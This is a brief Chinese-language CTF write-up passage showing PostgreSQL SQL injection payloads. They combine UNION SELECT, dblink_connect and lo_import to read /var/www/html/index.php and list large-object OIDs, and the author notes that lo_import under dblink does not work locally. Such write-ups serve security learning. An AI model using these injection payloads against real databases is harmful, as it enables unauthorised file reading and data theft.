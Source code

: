 dblink下包含文件

```
?f=gyy' union select 1,(SELECT dblink_connect('host=IP user=postgres password=postgres dbname=@'|| (select lo_import('/var/www/html/index.php')) )) --
```

![image-20210201215153531](cqb2021/image-20210201215153531.png)

返回oid16438，我们读取一下所有oid列表看一下

```
?f=gyy' union select 1,(SELECT dblink_connect('host=IP user=@' || (SELECT string_agg(cast(oid as text), ',') FROM pg_largeobject_metadata) || ' password=postgres dbname=postgres')) --
```

没有报错，同时，**没有任何数据返回**

而我们直接包含`index.php`试一下

```
?f=gyy' union select (select lo_import('/var/www/html/index.php')),'2' --
```

没有报错，再查一下oid列表

![image-20210201220913327](cqb2021/image-20210201220913327.png)

有数据返回，同时可见16439和16440，而16438并没有在列表中，读取16438数据没有返回，读取16439与16440正常返回



可见dblink下lo_import在本地是不生效的

---
